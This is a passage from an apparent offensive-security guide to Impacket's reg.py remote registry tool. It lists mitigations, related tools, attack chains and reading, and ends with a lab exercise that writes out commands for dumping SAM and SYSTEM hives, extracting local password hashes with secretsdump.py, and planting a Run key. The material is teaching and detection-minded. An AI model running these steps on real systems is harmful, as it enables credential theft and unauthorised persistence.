- **Apply LAPS.** Randomizes local admin passwords, preventing the "one password everywhere" problem. Combined with disabled Remote Registry, makes these attacks require per-machine credential acquisition.
- **Monitor service configuration changes.** Event 4697 (service installed) and similar events can catch the Remote Registry service being modified (enabled when previously disabled).
- **Implement Protected Users group for privileged accounts.** Prevents NTLM authentication. Since `reg.py` can use NTLM, forcing Kerberos for privileged accounts eliminates some attack surface (though Kerberos authentication also works with `reg.py`).


## Related tools and attack chains

`reg.py` opens the Remote System Interaction category. Other stubs in the category:

- **`services.py`**. Windows service management via SCMR. Companion to `psexec.py` which uses SCMR for service creation.
- **`rdp_check.md`** (listed as stub). Likely RDP reachability/version checking.
- **`attrib.md`** (listed as stub). File attribute manipulation.
- **`tstool.md`** (listed as stub). Terminal Services management.

### Related Impacket tools

- [`secretsdump.py`](../03_credential_access/secretsdump.md) uses the same remote registry mechanism for its registry mode. Understanding `reg.py save` explains how secretsdump extracts SAM/SYSTEM/SECURITY.
- [`psexec.py`](../04_remote_execution/psexec.md) uses the same SCMR pattern for starting services (the service it creates is a different one, but the SCMR mechanics are identical).
- [`ntlmrelayx.py`](../06_relay_attacks/ntlmrelayx.md) has a `--modify-target` option that uses MS-RRP to modify target registry settings via relay authentication, building on the same protocol.

### External tools

- **`reg.exe`**. Windows built-in. Supports `/s <remote>` for remote operations, similar to `reg.py`. Requires Windows attack host.
- **`PowerShell Get-Item HKLM:\...`**. PowerShell cmdlets for registry, including the `Microsoft.Win32.RegistryKey` .NET class for remote operations.
- **`RegScanner`** and similar tools for automated sensitive registry value discovery.
- **`Veeam registry tools`** and other backup product tools; some reach into SAM/SECURITY and are occasionally misused for credential extraction.

### The canonical reg.py → secretsdump.py flow



The diagram shows why understanding `reg.py` matters for understanding the full credential dump attack chain. `secretsdump.py`'s convenience hides that the operation is really just three `reg.py save` calls followed by offline parsing.

### The registry-based persistence chain



Simple but effective. The detection opportunity is entirely at the write operation (via Sysmon or 4657); once the value is in place, execution is indistinguishable from any legitimate startup program.


## Further reading

- **`[MS-RRP]`: Windows Remote Registry Protocol.** `https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-rrp/`. The authoritative specification. Section 3 covers the protocol operations.
- **Microsoft "Registry" documentation.** `https://learn.microsoft.com/en-us/windows/win32/sysinfo/registry`. Registry fundamentals and the Win32 API.
- **Microsoft "Registry Hives."** `https://learn.microsoft.com/en-us/windows/win32/sysinfo/registry-hives`. The hive concept and how it maps to files on disk.
- **Microsoft "Registry Element Size Limits."** `https://learn.microsoft.com/en-us/windows/win32/sysinfo/registry-element-size-limits`. Details on the binary structure.
- **SwiftOnSecurity Sysmon Configuration** at `https://github.com/SwiftOnSecurity/sysmon-config`. The canonical community Sysmon config with registry monitoring.
- **Olaf Hartong sysmon-modular** at `https://github.com/olafhartong/sysmon-modular`. Modular Sysmon config with dedicated registry modules.
- **MITRE ATT&CK T1003.002** at `https://attack.mitre.org/techniques/T1003/002/`. SAM dumping via registry.
- **MITRE ATT&CK T1112** at `https://attack.mitre.org/techniques/T1112/`. Modify Registry technique.
- **MITRE ATT&CK T1547.001** at `https://attack.mitre.org/techniques/T1547/001/`. Registry Run Keys / Startup Folder.
- **Russinovich and Solomon "Windows Internals"** chapter on the Registry. The most thorough treatment of the registry subsystem available.
- **LolBAS Project** at `https://lolbas-project.github.io/`. Includes `reg.exe` entries with its attack-relevant options.

If you want to internalize the tool, set up a lab domain controller with the Remote Registry service enabled. Use `reg.py query -keyName 'HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion'` to see normal output. Then use `reg.py save` to extract the SAM and SYSTEM hives. Parse them with `secretsdump.py -sam sam.save -system system.save LOCAL` to see the local account hashes. The flow is the foundation of the default `secretsdump.py` mode; seeing it happen manually makes the abstractions tangible. After that, experiment with `reg.py add` to plant a Run key and verify it appears in `autoruns.exe` on the target. The detection side of the attack becomes concrete when you see your own plant show up in standard administrator tooling. Finally, observe what happens in the target's Event Viewer: Event 7036 for the Remote Registry service state change, and if Sysmon is configured, Event 13 for the Run key modification. The full detection chain is visible from both sides.
